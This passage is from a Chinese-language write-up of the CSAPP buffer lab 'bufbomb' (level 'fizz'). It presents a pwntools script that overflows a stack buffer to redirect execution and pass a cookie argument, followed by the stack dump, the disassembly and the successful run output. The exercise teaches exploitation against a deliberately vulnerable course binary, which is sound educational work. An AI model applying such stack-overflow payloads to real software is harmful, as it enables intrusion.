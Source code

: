 需要一个参数，所以可以有exp.py：

``` python hl_lines="5 6"
from pwn import *

p = process(argv=['/home/domain/Documents/SZU/CSAPP/4/bufbomb', '-t', 'domain'])
print(p.recv())
address = 0x08048E60
payload = 'a' * 28 + p32(address) + p32(0x00000000) + p32(0x6dfd74c3)
p.sendline(payload)
print(p.recv())

```

可以当作就是在上次的基础上改了个函数地址`fizz`（`0x08048E60`），外加把参数放上去。你可能想知道为什么是这样，也可能想知道那个奇怪的0填充是什么，这个时候我们可以适当地在上面的脚本加`pause()`，然后用IDA`Attach to process...`，选中`bufbomb`就可以开始调试这个进程了。

!!! warning
    调试是很重要的。要是让我只看代码不调试，我可能几乎写不出payload。而且，当你的输入并没有得到预期的结果时，如果你不进行调试是很难发现问题所在的。关于如何进行调试，你很快就会在左侧栏或是上方搜索框中找到相关文章（或许吧）。

看看这次的栈：

``` hl_lines="10"
FFEC7250  61616161  
FFEC7254  61616161  
FFEC7258  61616161  
FFEC725C  61616161  
FFEC7260  61616161  
FFEC7264  61616161  
FFEC7268  61616161  
FFEC726C  61616161  
FFEC7270  00000000  
FFEC7274  6DFD74C3  
FFEC7278  FFEC7200  [stack]:FFEC7200
```

此时执行到`0x08048E66`：

``` asm hl_lines="4"
.text:08048E60 push    ebp
.text:08048E61 mov     ebp, esp
.text:08048E63 sub     esp, 8
.text:08048E66 mov     eax, [ebp+8]
.text:08048E69 cmp     eax, ds:cookie
.text:08048E6F jz      short loc_8048E90
```

这个时候`EBP`是`0xFFEC726C`，函数`fizz()`参数将从`0xFFEC7274`上取值，我们已经将Cookie覆盖上去了，所以没有问题：

```
/home/domain/IdeaProjects/pwntools/venv/bin/python /home/domain/IdeaProjects/pwntools/main.py
[x] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb'
[+] Starting local process '/home/domain/Documents/SZU/CSAPP/4/bufbomb': pid 16217
Team: domain
Cookie: 0x6dfd74c3

Type string:Fizz!: You called fizz(0x6dfd74c3)

[*] Stopped process '/home/domain/Documents/SZU/CSAPP/4/bufbomb' (pid 16217)

Process finished with exit code 0

```
